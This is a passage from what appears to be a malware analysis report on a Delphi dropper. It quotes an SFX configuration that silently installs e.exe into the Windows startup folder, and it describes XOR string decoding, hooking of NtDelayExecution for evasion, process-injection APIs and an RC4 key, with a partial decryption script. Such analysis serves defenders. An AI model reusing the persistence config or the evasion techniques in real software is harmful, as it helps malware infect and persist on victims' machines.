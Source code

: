 


12345

Path=%userprofile%\start menu\programs\startup\Setup=e.exeSilent=1Overwrite=1Update=U





 
For those unfamiliar with SFX commands, the series of commands above is silently deploying e.exe to the startup path. It will overwrite any instances where e.exe already exists in this path.
The ‘e.exe’ file is compiled in Delphi and has the following SHA256 hash:



SHA256
9580d15a06cd59c01c59bca81fa0ca8229f410b264a38538453f7d97bfb315e7



 
When run, ‘e.exe’ will periodically decrypt strings at runtime using a simple single-byte XOR routine. While the routine allows for different bytes to be used, the author chose to use a key of 0xFF in every observed instance.
The malware proceeds to get the address of the NtDelayExecution function from ntdll.dll. This function is used by Sleep to cause a delay in program execution. After this function address has been resolved, it will overwrite the first five bytes to jmp to a malicious function, as seen below:

Figure 8 Modifications to NtDelayExeuction
 
The malware proceeds to make a call to Sleep with an argument of 1, thus redirecting execution to this malicious function. This is likely an attempt at thwarting anti-virus and security solutions, however, has the adverse effect of preventing the malware from making subsequent calls to Sleep.
This malicious function continues to decode more strings using the single-byte XOR technique. Additionally, it will copy the following functions out of ntdll.dll for later use:

ZwCreateUserProcess
ZwAllocateVirtualMemory
ZwWriteVirtualMemory
ZwGetContextThread
ZwSetContextThread
ZwResumeThread

A large blob of encrypted data is decrypted using a modified version of RC4. The following Python code may be used to decrypt this data. The key has consistently been observed to be “qlNwuFVA9K8HpGNY6x0I”.





import base64
import binascii
import hexdump
import sys
def rc4_crypt(data, key):
  S = range(256)
  j = 0
  out = []
  for i in range(256):
    j = (j + S[i] + ord( key[i % len(key)] )) % 256
    S[i] , S[j] = S[j] , S[i]
  i = 0
  for char in data:
    j = (S[i % 256] + j) % 256
    t = S[i%256]
    S[i%256] = S[j]
    S[j] = t
    out.append(chr(ord(char) ^ S[(S[i%256] + S[j]) % 256]))
    i += 1
  return ''.join(out)
file = sys.argv[1]
